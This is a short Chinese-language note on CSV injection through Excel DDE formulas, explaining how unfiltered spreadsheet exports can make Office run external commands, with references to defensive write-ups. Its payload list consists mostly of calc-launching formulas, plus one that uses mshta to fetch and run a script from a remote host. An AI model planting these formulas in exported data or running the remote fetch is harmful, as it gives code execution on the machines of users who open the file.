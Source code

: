# CSV 注入  
和普通的注入差距不大，但是是属于导出到csv文件当中，当打开csv文件的时候就会造成csv当中的某些代码执行，当某些安全意识比较低的用户点开之后就会出现问题。   
在实际的挖掘当中，很多TOb的业务当中存在很多将数据导出到excel的地方，通常导出excel的时候并没有对要进行导出excel的数据进行过滤所以就会造成这个问题。    

一句话来说  
**不仅仅是一个简单的注入，更是dde类型注入，在office365当中都具有**
## 前提  
### DDE是什么？  
dde widnwos进程间通信协议，是一种动态数据交换机制。当我们制作包含DDE公式的CSV文件的时候，在打开文件的时候Excel就会执行外部的应用。  
并且在excel的程序当中需要打开dde ，受害者需要配合点击  接受风险 之类的按钮。  

其实在这里不光是 excel属于被攻击的向量office  365当中的其他软件同时如此，outlook excel 都是这样。    
**注意在wps当中却不存在这样的问题**     








### 常见的payload

代码执行

```
=1+cmd|' /C calc'!A0
+1+cmd|'/c mshta.exehttp://192.168.233.102:8080/a'!A0
=1*cmd|' /C calc'!A0
-cmd|' /C calc'!A0
+cmd|' /C calc'!A0
@SUM(cmd|'/c calc'!A0)
%0A-1+cmd|' /C calc'!A0
;-1+cmd|' /C calc'!A0
1+cmd|’/C calc’!A0
```

恶意邮件进行利用 
```
HYPERLINK("urk","content")
```




## refer
[freebuf_csv解决方案](https://www.freebuf.com/vuls/195656.html)

[知道创宇的csv方案](https://blog.knownsec.com/2016/05/csv-injection-vulnerability/)

